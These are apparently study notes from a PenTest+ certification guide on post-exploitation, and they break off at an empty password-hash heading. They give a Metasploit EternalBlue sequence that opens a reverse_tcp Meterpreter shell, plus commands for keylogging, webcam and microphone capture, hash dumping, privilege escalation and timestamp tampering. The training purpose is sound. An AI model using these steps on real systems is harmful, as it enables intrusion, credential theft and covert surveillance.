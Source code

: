 # CompTIA® PenTest+® Certification For Dummies®, 2nd Edition

# Chapter 8: Understanding Post Exploitation Actions

Actions after bypassing security of system:
- Gaining Access to passwords that can access to other systems on network
- Planting backdoor so if system is patched, there will still be a way into system later on.

Learn:
- Common post exploitation tasks
- Obtain shell
- Retrieve password hashes
- Disable Antivirus software
- Take Screenshots
- Take remote control of the system on network
- How to maintain access (persistence).
- How to cover your tracks when finished.

#

## Common Post Exploitation Tasks

Common Post Exploitation Tasks
- Meterpreter session in Metasploit.
- Meterprete = Metaspolit payload (type of attack) that gives you interactive command prompt
  - Containing number of built in modules (commands) for execution on target system aiding in post exploitation.
 
Vuln in SMB protocol (EternalBlue)
- `msfconsole`: open up metasploit.
- `search ms17-010`: search EternalBlue in metasploit.

![image](https://github.com/user-attachments/assets/2e8f233e-d32d-436e-8de8-480656f6692f)

- `use exploit/windows/smb/ms17_010_eternalblue`
-  `set payload windows/x64/meterpreter/reverse_tcp`
-  `set RHOST <victim_ip>`
-  `set LHOST <kali_ip>`
-  `exploit`

![image](https://github.com/user-attachments/assets/43304077-f3ae-4db3-9bc0-325284193214)

- Once system has been exploited you will see meterpreter prompt.

Commands broken down by category:
- Core Commands: Standard commands available with meterpreter; allow to perform number of tacks: background the current session, exit, get help, and migrate.
- File System Commands: Allow you to work with folders and files (Example: dir, cat, upload, and edit).
- Network Commands: Give details on your network setup and environment. Commands includes `ifconfig`. `ipconfig`, `netstat`, `route`.
- System Commands: Works with target system. Example: Can view running processes with `ps` or kill a process with `kill` command.
- User-interface commands: Works with user interface environment with command such as `keyscan_start`, `screenshot` and `idletime`.
- Webcam Commands: manipulate webcam of compromised system by turning it on or off. Can use command such as `webcam_list`, `record_mic`, `webcam_snap` or `webcam_stream`.
- Elevate Commands: `getsystem` command elevates your privileges to system-level privileges.
- Password Database Commands: Can retrieve list of password hashes from system by using the `hashdump` command.
- Timestomp Commands: Can manipulate file MACE (modifies, access, created, entry) attributes with `timestomp` command.


Understanding the Context
- Important commands: `sysinfo`, `getuid` `getpid` `pwd`
- `sysinfo`: display system information; computer you are currently on and its OS information.
- `getuid`: display user account you are connected as.
- `getpid`: display process you are connected to as your running context.
- `pwd`: display current directory you are in on victim's system.

![image](https://github.com/user-attachments/assets/817d6491-bf46-4a91-917d-c3f6ceeb9166)


Collecting Information/ Enumeration
- Users: Retrieving list of usernames from system could aid in gaining access to restricted areas on system or access to othe systems.
- Groups: Getting list of groups can help you determine if you need to add yourself to specific group in order to bypass access crontrol lists at later time.
- Forests: Getting a list of Active Directory forests that exist can be helpful to locate other resources on network.
- Sensitive Data: User account information or company sensitive data.
- Unencrypted files: Look thru unencrypted files to find info of value.


Commands:
- `run checkvm`: check to see if system is a VM and platform its using.
- `run winenum`: run a script to enumerate entire system and find info such as IP settings, ither systems on network in the same domain arp cache of system, user acc on system.
  - Output is saved: `/root/.msf4/logs/scripts` folder.

![image](https://github.com/user-attachments/assets/35e7189c-a704-4b0f-8ec5-9dceecf8f6df)

![image](https://github.com/user-attachments/assets/9c2e7044-8958-402f-9d35-16d64d8f1c97)

- `run scraper`: Another enumeration tool that does the same thing and store the results into log files.


Obtaining Shell
- First thing to do after exploiting a system is: get Command prompt shell of that system so anything can be use on OS  I want to use.
- `shell`, get a command prompt of exploited system.
- After running `shell`, you will have the command prompt of target system available.
- When you are finished execturing OS commands, use `exit` command to go back to meterpreter prompt.

![image](https://github.com/user-attachments/assets/fa31b109-305a-494f-95b4-a89af6fe5fc9)


Retrieving Password Hashes
- 
